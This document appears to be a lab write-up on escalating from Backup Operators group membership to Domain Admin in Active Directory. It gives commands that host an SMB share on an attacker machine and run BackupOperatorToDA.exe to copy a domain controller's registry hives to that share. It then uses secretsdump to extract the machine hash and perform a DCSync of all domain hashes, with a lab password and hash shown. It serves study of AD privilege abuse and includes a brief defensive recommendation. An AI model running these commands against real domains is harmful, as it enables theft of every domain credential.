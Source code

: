 # Backup Operators

## Configuring

### Prerequisite&#x20;

The membership of the "Backup Operators" group is configured in the Dumping DPAPI page.

{% content-ref url="../../misc/page-3.md" %}
[page-3.md](../../misc/page-3.md)
{% endcontent-ref %}

## Attacking

### How it works

The Backup Operators group is a built in group in AD. By default it has no members.

Members of the Backup Operators group can back up and restore all files on a computer, regardless of the permissions that protect those files. Backup Operators also can log on to and shut down the computer. This group cannot be renamed, deleted, or moved. They also have the permissions needed to replace files (including operating system files) on domain controllers.

One of the known attacks is to copy the ntds.dit file and extract all the domain credentials from it.

{% hint style="info" %}
I wasn't able to copy the `ntds.dit` file. There are some write-ups such as [these](https://coldfusionx.github.io/posts/Blackfield-HTB/) describing how to abuse the "Backup Operator" group through making a shadow copy, but these require winrm access to the DC.&#x20;

In my attack we will use the tool BackupOperatorToDA from [mpgn](https://github.com/mpgn/BackupOperatorToDA).
{% endhint %}

### Tools

* [Smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)
* [BackupOperatorToDA.exe](https://github.com/mpgn/BackupOperatorToDA)

### Executing the attack

#### The small stuff

* Login to the DC locally (Not through RDP but only locally):

![](<../../../.gitbook/assets/image (22) (1).png>)

* List files on the Domain Controller:

![](<../../../.gitbook/assets/image (17) (1) (1) (1).png>)

* Copy files from the Domain Controller:

![](<../../../.gitbook/assets/image (67) (1) (1).png>)

#### To Domain Admin!

From our enumeration when we gained access to the `sa_backup` account we know the user is part of the Backup Operators group. We can abuse the permissions by making a copy of the SAM, SYSTEM and SECURITY hive, extract the machine account hash and then execute a DCsync attack.

1. Login to `DATA01` as `sa_backup` with the password `LS6RV5o8T9`.
2. Run the following command to check if the `sa_backup` user is member of the `Backup Operators` group.

![](<../../../.gitbook/assets/image (19) (1) (1) (1).png>)

3\. One of the requirements is to host a public SMB share, we can do this with the smbserver.py script from Impacket. This will create a share on `\\192.168.248.2\share`.

```
python3 /opt/impacket/examples/smbserver.py share ~/adlab -smb2support
```

![](<../../../.gitbook/assets/image (71) (1) (1) (1) (1) (1) (1).png>)

4\. The next step is to execute the BackupOperatorToDa.exe tool to retrieve the the SAM, SYSTEN and SECURITY HIVE and save them in our created public share:

```
.\BackupOperatorToDA.exe -t \\dc03.secure.local -u sa_backup -p LS6RV5o8T9 -d secure.local -o \\192.168.248.2\share\
```

![](<../../../.gitbook/assets/image (68) (1) (1).png>)

{% hint style="info" %}
If you are using another share, make sure the share is writeable by anyone otherwise the DC won't be able to write its files.
{% endhint %}

5\. If we check in our directory `~/adlab` we can see the files: (for the screenshot I made a copy in the HIVE directory)

![](<../../../.gitbook/assets/image (73) (1) (1) (1) (1) (1).png>)

6\. The next step is to run SecretDump.py to retrieve the machine account NTLM hash out of these HIVE dumps:

```
secretsdump.py LOCAL -system ~/adlab/SYSTEM -security ~/adlab/SECURITY -sam ~/adlab/SAM
```

![](<../../../.gitbook/assets/image (53).png>)

7\. The last step is to run Secretsdump.py to run DCsync and retrieve all the domain account hashes:

```
secretsdump.py 'secure.local/dc03$'@dc03.secure.local -hashes aad3b435b51404eeaad3b435b51404ee:ba6414d4e6ce546465b256950282c7f3
```

![](<../../../.gitbook/assets/image (18) (1) (1) (1).png>)

We retrieved the NTLM account hash of every user in the domain and could authenticate with these to the domain controller. As Administrator for example which is Domain Admin.

## Defending

### Recommendations

* Never use any of the "Operator" groups. Create specialised groups and minimal permissions for the tasks the different IT departments/roles need. Use the least privilege principal.

### Detection



## References

{% embed url="https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#account-operators" %}

